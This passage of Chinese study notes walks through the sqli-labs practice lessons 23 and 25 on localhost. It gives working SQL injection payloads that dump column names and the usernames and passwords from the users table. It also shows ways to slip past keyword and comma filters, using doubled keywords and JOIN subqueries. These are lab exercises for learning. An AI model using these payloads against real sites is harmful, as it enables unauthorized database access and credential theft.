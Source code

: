 开始注入:

```mysql
http://localhost/sqli-labs-master/less-23/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3 or '1'='1
回显:Your Login name:id,username,password
```

```mysql
http://localhost/sqli-labs-master/less-23/?id=-1' union select 1,(select group_concat(username,password) from users),3 or '1'='1
回显:Your Login name:DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!le,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4
```

------

------

## less-25

and和or的绕过:
**总结方法**
1.复写: anandd  AnAnDd
2.利用|| 和 && 要用URL编码



## 关于less-25的补充

**绕过WAF逗号过滤解决方法:**
JOIN:

```mysql
?id=-1' union select * from (select 1)a join (select 2)b join (select 3)c -- -
```

Your Login name:2
Your Password:3`

```mysql
?id=-1' union select * from (select 1)a join (select 2)b join (select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())c -- -
##注意复写or 因为是less-25     获得表名
```

```mysql
?id=-1' union select * from (select 1)a join (select 2)b join (select group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() anandd table_name='users')c -- -
```

 Your Login name:2
Your Password:id,username,password

```mysql
?id=-1' union select * from (select 1)a join (select group_concat(username) from users)b join (select group_concat(passwoorrd) from users)c -- -
```
